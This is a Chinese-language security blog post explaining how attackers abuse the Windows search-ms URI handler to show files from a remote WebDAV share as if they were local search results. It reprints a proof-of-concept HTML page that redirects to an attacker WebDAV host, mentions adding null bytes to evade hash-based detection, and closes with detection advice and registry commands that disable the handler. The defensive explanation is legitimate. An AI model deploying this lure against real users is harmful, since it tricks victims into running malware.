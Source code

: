 #  利用Windows原生Search-ms的恶意利用技术

原创 绝对防御局 [ 绝对防御局 ](javascript:void\(0\);)

**绝对防御局** ![]()

微信号 Absolute-Defense

功能介绍 专注于入侵检测、红蓝对抗的安全内容分享

____

___发表于_

收录于合集

#红蓝对抗 2 个

#Windows 3 个

#入侵检测 6 个

> 微信公众号： **绝对防御局**
>
> 关注可了解更多关于 红蓝对抗、安全防御等安全tips ;
>
> 有任何的问题或建议，欢迎公众号留言;

自Windows Vista开始，Windows系统默认支持一些有趣的搜索功能。其中使用 `search-
ms`这种URI协议处理，增强了本地的搜索能力，同时也允许本机对位于远程主机上的文件共享进行查询。

最近，Trellix的研究人员发现了一种新型攻击技术，利用远程托管的文件搜索结果显示在Windows资源管理中，伪装成本地文件搜索结果一样，欺骗受害者执行远程恶意文件。利用这个协议的强大功能，研究者成功在各种脚本文件进行执行利用，包括Batch、Visual
Basic、PHP和PowerShell。

## 0x01 技术分析

简单看下攻击链路

  
![]()  

攻击者可通过Email等常规方式进行恶意Payload的初步投递，无论是HTML还是PDF只要带上相关的serach-
ms链接，等待用户点击之后通过浏览器直接执行弹出“打开Windows资源管理器”的按钮，用户通过直接点击即可直接导航至攻击者相关的恶意程序服务器，此时可通过各种伪装LNK等方式欺骗受害者进行恶意程序不落盘的执行。

参考 `@mariuszbit`的Poc测试

  

![]()

    
          1. <html>
    
      2. <head>
    
      3.     <title>search-ms</title>
    
      4.     <script>
    
      5.         window.location.href = 'search-ms:query=test&crumb=location:\\\\dav.binary-offensive.com@SSL\\webdav&displayname=Hello, is it me you\'re looking for?';
    
      6.     </script>
    
      7. </head>
    
      8. <body>
    
      9. <center>
    
      10.     PoC triggering Microsoft's <b>search-ms</b> URI handler to open up Explorer previewing attacker's WebDAV contents.</br>
    
      11.     This is to lure victims into opening malicious files which could have led to their computers infection.<br/>
    
      12. </center>
    
      13. </body>
    
      14. </html>
    
    
    

![]()  

实际JS执行的Payload

    
          1. search-ms:query=test&crumb=location:\\dav.binary-offensive.com@SSL\webdav&displayname=Hello, is it me you\'re looking for?
    
    
    

query参数表示实际右侧的搜索内容，crumb表示实际的执行请求的资源，displayname表示搜索栏显示的内容。从而伪装成本地文件，欺骗用户进行执行。

![]()

实际过程中攻击者可以利用快捷方式/ISO等手法进行自定义的恶意程序代码执行。![]()

![]()

![]()

其中攻击者也习惯尝试添加空字节绕过基于文件Hash的IOC检测。

## 0x02 检测与防御

测试中可以发现外部资源的访问实际是使用WebDAV协议访问远程服务器上的文件和文件夹

![]()

在执行相关搜索到的应用程序时也能发现执行的是外部资源文件

![]()

所以，防御方可通过匹配如regsvr32、powershell等利用系统内置程序且尝试进行外连（包含`\\`）执行的行为，正常内部除开启了域内的网络共享之外，确认相关链接即可检测判断出异常行为。  
根据实际情况也可直接禁用原生的search-ms协议

    
          1. reg delete HKEY_CLASSES_ROOT\search /f
    
      2.   3. reg delete HKEY_CLASSES_ROOT\search-ms /f
    
    
    

## 0x03 参考

https://www.trellix.com/en-us/about/newsroom/stories/research/beyond-file-
search-a-novel-method.html

https://twitter.com/mariuszbit/status/1684868270287949827

  
感谢关注 :)  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

